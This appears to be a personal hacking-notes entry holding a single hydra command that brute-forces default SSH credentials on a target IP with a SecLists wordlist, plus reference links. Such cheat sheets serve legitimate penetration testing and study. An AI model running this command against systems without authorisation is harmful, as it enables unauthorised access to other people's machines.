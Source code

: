 # brute force default credentials ssh
```bash
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt -e nsr -t 1 $IP ssh
```

# References
- [20221003150807](/zet/20221003150807/) brute force default credentials
- ~/kb/hacking/commands/hydra-default-credentials.md

Tags:
    #assorted

